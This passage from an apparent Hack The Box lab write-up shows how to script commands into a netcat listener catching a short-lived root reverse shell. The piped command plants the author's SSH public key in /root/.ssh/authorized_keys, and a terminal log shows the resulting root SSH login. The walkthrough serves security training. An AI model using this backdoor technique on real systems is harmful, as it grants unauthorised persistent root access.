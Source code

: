 Still, cases come up where a short lived shell is all you can get. It’s
interesting to see how to script commands to run on the shell. I’ll just
`echo` them into the `nc` listener:

    
    
    oxdf@parrot$ echo 'mkdir -p /root/.ssh && echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58Q
    vP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> /root/.ssh/authorized_keys' | sudo nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.214] 58360
    bash: cannot set terminal process group (67254): Inappropriate ioctl for device
    bash: no job control in this shell
    <U19G3d nobody@nothing" > /root/.ssh/authorized_keys
    root@time:/# 
    ^C
    

It connects, and then I’ll Ctrl-C to exit and then connect over SSH, and it
works:

    
    
    oxdf@parrot$ ssh -i ~/keys/ed25519_gen root@10.10.10.214
    Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-52-generic x86_64)
    ...[snip]...
    root@time:~#
    

[](/2021/04/03/htb-time.html)

